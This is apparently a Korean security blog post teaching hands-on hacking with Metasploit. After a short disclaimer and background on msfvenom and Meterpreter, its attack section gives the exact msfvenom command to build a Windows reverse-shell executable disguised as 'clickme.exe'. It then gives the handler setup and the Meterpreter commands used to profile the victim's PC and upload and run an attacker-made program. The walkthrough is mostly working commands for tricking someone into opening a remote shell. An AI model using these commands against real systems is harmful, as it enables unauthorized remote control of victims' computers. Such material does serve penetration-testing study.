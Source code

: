```yaml
---
layout: post
title: Metasploit Meterpreter를 이용한 해킹 실습
categories: Tool
tags: Metasploit
---
```

# 목차
1. Disclaimer
1. Metasploit, msfvenom, meterpreter 란
1. PoC
1. 공격 코드 설명
- - -
  
# 1. Disclaimer
<span style="color:red">
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.
Do not try to attempt to break laws or do any illegal stuff by using this.

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</span>
- - -
# 2. Metasploit, msfvenom, meterpreter 란
## – Metasploit
메타스플로잇 프로젝트란 취약점 분석과 IDS 서명 개발 보조기구 등에 대한 정보를 제공하는 것을 목적으로 하고 있습니다. 2007년 루비에 의하여 재구조된 후, 2009년 10월 21일 Rapid7이라는 통일 취약성 관리 솔루션을 제공하는 보안 회사에 인수되었습니다.

칼리 리눅스에 메타스플로잇이 기본으로 설치되어있고, 실제로 직접 metasploit-framework 의 모듈 폴더를 보면 탑재된 모듈이 루비로 작성되어있다는 것을 확인할 수 있습니다.


메타스플로잇은 위와 같이 msfbinscan, msfconsole, msfd, msfdb, msfelfscan, msfmachscan, msfpescan, msfremove, msfrop, msfrpc, msfrpcd, msfupdate, msfvenom 이란 프로그램들로 구성되어 있습니다.  
여기서 ~scan이란 이름의 프로그램들은 익스플로잇 도구를 제작할 때 쓰이는 도구이고, 대부분 메타스플로잇을 사용한다고 하면 msfconsole이란 콘솔 커맨드라인 인터페이스를 의미합니다. msfconsole은 메타스플로잇의 대부분의 기능을 지원합니다.

## – msfvenom
위의 프로그램 중에 msfvenom이란 이름의 프로그램이 있습니다. 메타스플로잇의 커맨드라인 인스턴스로써 다양한 쉘 코드를 생성할 수 있습니다.  
예로, 공격자의 ip와 포트번호를 삽입하여 희생자 windows pc의 쉘을 따내는 프로그램을 제작하는데 사용됩니다.

## – meterpreter
메타스플로잇 공격은 주로 msfconsole -> search -> use -> info -> show options -> set -> exploit -> meterpreter 순으로 진행이 됩니다.  
여기서 미터프리터는 in-memory DLL인젝션을 사용한 페이로드로써, 최종적으로 희생자 pc의 exploit에 성공해서 미터프리터 세션이 맺어져 쉘 권한을 획득해 직접 희생자 pc에 명령을 내릴 수 있게 네트워크를 유지시켜줍니다.
- - -
# PoC
{% include youtube_embed.html id="G-3jJCqQ_m8" %}
- - -
# 4. 공격 코드 설명
{% highlight text %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.xxx.xxx LPORT=7777 -f exe -o clickme.exe
{% endhighlight %}
msfvenom을 이용해 페이로드(-p)로 윈도우즈 미터프리터 리버스 커넥션을 맺습니다. 여기서 리버스 커넥션이란, 외부에서 내부로 들어오는 inbound 트래픽은 방화벽에서 막지만, 그 반대인 outbound 트래픽의 경우 대부분은 허용해주는 것을 이용해 내부망에서 외부망으로 거꾸로 접속을 하도록하는 쉘코드를 의미합니다.  
LHOST는 공격자 아이피이고 LPORT는 공격자 임의의 포트로 설정합니다.  
포맷(-f)은 exe로 윈도우즈 실행 프로그램이며, clickme.exe 형태로 페이로드를 저장합니다.

{% highlight text %}
msf5 > use exploit/multi/handler
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set lhost 192.168.xxx.xxx
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set lport 7777
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > exploit
{% endhighlight %}
익스플로잇을 하고 희생자 pc에서 clickme.exe를 클릭하면 리버스 커넥션이 맺어졌다는 메시지와 함께 미터프리터 세션이 열렸다는 메시지를 받게 됩니다.

{% highlight text %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자 pc의 시스템 정보를 알아냅니다.

{% highlight text %}
meterpreter > upload Warning.exe
{% endhighlight %}
Warning.exe라는, 공격자가 만들어낸 윈도우즈 실행파일을 희생자 pc에 업로드 시킵니다.

{% highlight text %}
meterpreter > execute -f Warning.exe
{% endhighlight %}
공격자가 임의로 Warning.exe를 실행시킵니다.